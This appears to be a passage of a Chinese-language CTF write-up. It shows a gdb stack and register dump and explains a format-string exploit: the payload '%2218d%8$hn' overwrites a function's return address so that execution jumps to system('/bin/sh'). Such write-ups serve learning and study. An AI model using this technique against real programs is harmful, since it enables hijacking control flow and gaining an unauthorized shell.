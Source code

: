 ```assembly
$r9    : 0x6               
$r10   : 0x00007fff664f9310  →  0x00007fff664f9308  →  0x0000000000400d74  →   add rsp, 0x30
$r11   : 0x246             
$r12   : 0x00000000004007b0  →   xor ebp, ebp
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────── stack ────
0x00007fff664f9300│+0x0000: 0x00007fff664f9340 →  0x00007fff664f93f0  →  0x0000000000400eb0  →   push r15       ← $rsp, $rbp
0x00007fff664f9308│+0x0008: 0x0000000000400d74 →   add rsp, 0x30 # ret addr
0x00007fff664f9310│+0x0010: 0x00007fff664f9308 →  0x0000000000400d74 → add rsp, 0x30  ← $r10 # %8hn指向的地方，这里的值已被改为ret addr
0x00007fff664f9318│+0x0018: 0x0000000000000000
0x00007fff664f9320│+0x0020: 0x3132322500000000 # 0x00007fff664f9324 : fmt str addr
0x00007fff664f9328│+0x0028: "8d%8$hn\n"
0x00007fff664f9330│+0x0030: 0x0000000000000000
0x00007fff664f9338│+0x0038: 0x0000000000400d4d  →   cmp eax, 0x2
```

1. 格式化字符串为`"%2218d%8$hn\n"`
2. `%8$hn`指向的地址`0x00007fff664f9310`上存储的值为`0x00007fff664f9308`，也就是函数返回地址(ret addr, RBP + 8)

综上，执行完该printf函数后，`0x00007fff664f9308`处的双字节会被更改为`2218 = 0x08aa`。即原本的ret addr = `0x0000000000400d74`会被改为`0x00000000004008aa`，使得函数跳转到执行`system("/bin/sh")`

